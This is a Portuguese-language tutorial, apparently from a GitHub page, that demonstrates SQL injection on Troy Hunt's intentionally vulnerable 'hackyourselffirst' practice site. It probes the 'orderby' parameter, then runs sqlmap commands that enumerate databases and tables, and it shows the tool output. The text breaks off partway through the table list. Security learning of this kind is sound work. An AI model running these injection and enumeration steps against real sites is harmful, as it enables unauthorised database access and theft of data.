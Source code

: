 Uma análise inicial mostra que a página utiliza requisições do tipo GET, que provavelmente são dados como instruções ao banco de dados, como na variável `orderby`, diretamente no URL.

```
https://hackyourselffirst.troyhunt.com/Make/1?orderby=1
```

Vamos tentar passar um caractere proibido como o `'` e ver como site responde.

```
https://hackyourselffirst.troyhunt.com/Make/1?orderby='
```

<img src="https://cloud.githubusercontent.com/assets/8211602/26791649/20b548ca-49ee-11e7-8642-8a3d16e50f91.png" style="width: 100%;"/>

Um bom sinal! Os erros não são tratados e pior, são mostrados imediatamente ao usuário, o que significa que a aplicação pode ser vulnerável. Vamos rodar o [**sqlmap**](https://github.com/sqlmapproject/sqlmap) e tentar explorar essa variável. Primeiro, vamos enumerar os bancos da vítima:

```bash
./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" --dbs
```

E então ele começa a trabalhar, rodando um teste automatizado que enumera os bancos.

<img src="https://user-images.githubusercontent.com/8211602/33934197-47c0c688-dfdf-11e7-809d-8c1f2d5b7164.png" style="width: 100%;"/>

E, como em um passe de mágica, ele nos retorna a estrutura do bancos de dados!

```
[08:17:00] [INFO] retrieved: hackyourselffirst_db
[08:17:01] [INFO] retrieved: master
[08:17:01] [INFO] retrieved: tempdb
[08:17:02] [INFO] retrieved:  
available databases [3]:
[*] hackyourselffirst_db
[*] master
[*] tempdb
```

Agora que já sabemos qual o banco que vamos atacar, precisamos enumerar as tabelas:

```bash
./sqlmap.py --url "http://hackyourselffirst.troyhunt.com/Make/1?orderby=supercarid" -D hackyourselffirst_db --tables
```

E voalá:

```
[08:30:19] [INFO] fetching tables for database: hackyourselffirst_db
[08:30:19] [INFO] the SQL query used returns 11 entries
[08:30:20] [INFO] retrieved: dbo.Make
[08:30:20] [INFO] retrieved: dbo.Supercar
[08:30:21] [INFO] retrieved: dbo.UserProfile
[08:30:21] [INFO] retrieved: dbo.Vote
[08:30:22] [INFO] retrieved: dbo.webpages_Membership
[08:30:22] [INFO] retrieved: dbo.webpages_OAuthMembership
[08:30:23] [INFO] retrieved: dbo.webpages_Roles
[08:30:23] [INFO] retrieved: dbo.webpages_UsersInRoles
[08:30:24] [INFO] retrieved: sys.database_firewall_rules
[08:30:24] [INFO] retrieved: sys.script_deployment_status
[08:30:25] [INFO] retrieved: sys.script_deployments
Database: hackyourselffirst_db
[11 tables]
+------------------------------+
| Make                         |
| Supercar                     |
| UserProfile                  |
| Vote                         |
| webpages_Membership          |
```